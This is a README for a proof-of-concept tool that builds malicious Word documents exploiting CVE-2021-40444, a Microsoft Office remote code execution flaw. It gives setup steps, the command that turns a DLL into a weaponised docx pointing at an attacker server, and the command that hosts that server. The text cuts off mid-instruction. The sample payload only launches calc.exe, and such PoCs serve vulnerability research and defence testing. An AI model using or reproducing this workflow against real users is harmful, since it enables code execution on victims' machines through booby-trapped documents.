



# CVE-2021-40444 PoC

Malicious docx generator to exploit CVE-2021-40444 (Microsoft Office Word Remote Code Execution)

Creation of this Script is based on some reverse engineering over the sample used in-the-wild: 938545f7bbe40738908a95da8cdeabb2a11ce2ca36b0f6a74deda9378d380a52 (docx file)

You need to install lcab first (`sudo apt-get install lcab`)

Check `REPRODUCE.md` for manual reproduce steps

If your generated cab is not working, try pointing out exploit.html URL to calc.cab

# Using

First generate a malicious docx document given a DLL, you can use the one at `test/calc.dll` which just pops a `calc.exe` from a call to `system()`

`python3 exploit.py generate test/calc.dll http://<SRV IP>`

Once you generate the malicious docx (will be at `out/`) you can setup the server:

`sudo python3 exploit.py host 80`

Finally try the docx in a Windows Virtual Machine:

